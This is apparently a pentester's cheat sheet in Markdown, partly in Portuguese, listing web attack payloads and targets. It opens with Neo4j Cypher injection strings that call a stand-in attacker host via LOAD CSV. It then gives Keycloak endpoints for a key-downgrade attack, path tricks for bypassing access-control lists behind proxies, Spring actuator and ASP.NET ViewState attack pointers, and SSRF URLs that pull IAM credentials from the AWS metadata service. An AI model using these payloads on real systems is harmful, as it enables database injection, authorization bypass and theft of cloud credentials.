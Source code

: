 ## neo4j cypher injection
```
 LOAD CSV FROM 'https://attacker' as yl
 LOAD CSV FROM 'https://attacker' as yl//
})LOAD CSV FROM 'https://attacker' as yl
})LOAD CSV FROM 'https://attacker' as yl//
' LOAD CSV FROM 'https://attacker' as yl MATCH(:Z) WHERE '3'='3
' LOAD CSV FROM 'https://attacker' as yl//
'})LOAD CSV FROM 'https://attacker' as yl MATCH(:Z{w:'3
'})LOAD CSV FROM 'https://attacker' as yl//
" LOAD CSV FROM 'https://attacker' as yl MATCH(:Z) WHERE "3"="3
" LOAD CSV FROM 'https://attacker' as yl//
"})LOAD CSV FROM 'https://attacker' as yl MATCH(:Z{w:"3
"})LOAD CSV FROM 'https://attacker' as yl//
```

## keycloak
- REALM_NAME='master' -> testar também realm_name da app
- /auth/realms/{REALM_NAME} -> retorna a possível chave pública que tu vai usar pro ataque de downgrade
- /auth/realms/{REALM_NAME}/account -> interface admin do realm do keycloak
- /auth/realms/{REALM_Name}/.well-known/openid-configuration
- /auth/realms/{REALM_Name}/protocol/openid-connect/certs
- /auth/realms/{REALM_Name}/protocol/openid-connect/logout?redirect_uri=


## java (?apenas tomcat e jetty?)
- subverter lista de controle de acesso (ACL bypass)
    * /foo../restrict
    * /foo;/restrict
        - alguns proxys vao parar de ler e liberar para a app 
    * cenario exemplo: nginx como proxy reverso de app em tomcat
- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf

## spring
- /actuator
    * ?visualvm

## asp.net
```
TODO
https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter
https://book.hacktricks.xyz/pentesting/pentesting-web/iis-internet-information-services
https://www.youtube.com/watch?v=HrJW6Y9kHC4
https://blog.liquidsec.net/2021/06/01/asp-net-cryptography-for-pentesters/
https://paulmuellersec.files.wordpress.com/2021/06/asp.netcryptocheatsheet.pdf
http://phototor.com/2019/02/04/microsoft-iis-rce-vulnerability-cve-2017-7269/
```
## ssrf
- https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b
- se for aws
    - http://169.254.169.254/latest/meta-data
    - http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
    - http://169.254.169.254/latest/meta-data/iam/security-credentials/
- RhinoSecurityLabs/pacu
## aws
    - export AWS_ACCESS_KEY_ID=